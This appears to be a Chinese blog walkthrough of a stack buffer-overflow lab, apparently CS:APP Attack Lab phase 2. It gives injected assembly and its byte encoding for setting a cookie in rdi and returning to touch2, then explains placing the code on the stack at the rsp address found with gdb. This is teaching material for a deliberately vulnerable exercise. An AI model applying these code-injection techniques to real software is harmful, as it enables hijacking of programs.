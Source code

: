 **一些建议**

* 你需要为你的注入代码产生一个字节表示，使得ret指令可以转移控制你的代码。
* 函数的第一个参数是通过rdi来传递的。
* 你的注入代码需要将寄存器设置为你的cookie，然后使用一个ret指令跳转到touch2。
* 不要再注入代码中使用`jmp`或者`call`指令，去看附录B如何使用工具生成指令序列的字节级表示。

```assembly
# 附录B中生成指令字节序列的例子：
#Example of hand-generated assembly code
pushq  $0xabcdef		# Push value onto stack
addq   $17,%rax			# Add 17 to %rax
movl   %eax,%edx 		# Copy lower 32 bits to %edx


# unix> gcc -c example.s		生成.o文件
# unix> objdump -d example.o > example.d	反汇编出.d文件
# cat example.d			查看.d文件

# example.o:  file format elf64-x86-64 				
# Disassembly of section .text: 
# 0000000000000000 <.text>:  		
# 0: 68 ef cd ab 00		pushq $0xabcdef				这里的68 ef ad ab ... c2就是这个代码的字节级表示
# 5: 48 83 c0 11		add  $0x11,%rax
# 9: 89 c2 				mov  %eax,%edx 
```

对于这个现在这个任务，需要写一个注入代码，然后获取到该注入代码的字节级表示。

```assembly
# ans2.s文件：
movq $0x59b997fa, %rdi  	#将cookie的值作为第一个参数
pushq 0x00000000004017ec	#将touch2的地址压入栈
retq					# 通过retq跳转到touch2

# ans2.d文件
ans2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq 
```

但是如何来执行这一段指令呢？可以先将其存在栈帧上，也就是buf数组里面，由于的栈的地址不会发生改变可以知道，下次程序开始指令存储的还是这个地址。所以可以以rsp指针指向的位置作为注入代码的起始地址。下次执行时栈的地址还是在这里，再次访问执行就可以了。设置返回地址为rsp指针。可以通过gdb查看rsp的地址。

![image-20221022215520876](http://shixiaozhong.oss-cn-hangzhou.aliyuncs.com/img/image-20221022215520876.png)

走到0x417ac的位置，此时栈帧空间已经开辟好了，先在0x4017ac这里打断点，然后run，再查看rsp寄存器的值就可以。

<img src="http://shixiaozhong.oss-cn-hangzhou.aliyuncs.com/img/image-20221021140525974.png" alt="image-20221021140525974" style="zoom:67%;" />
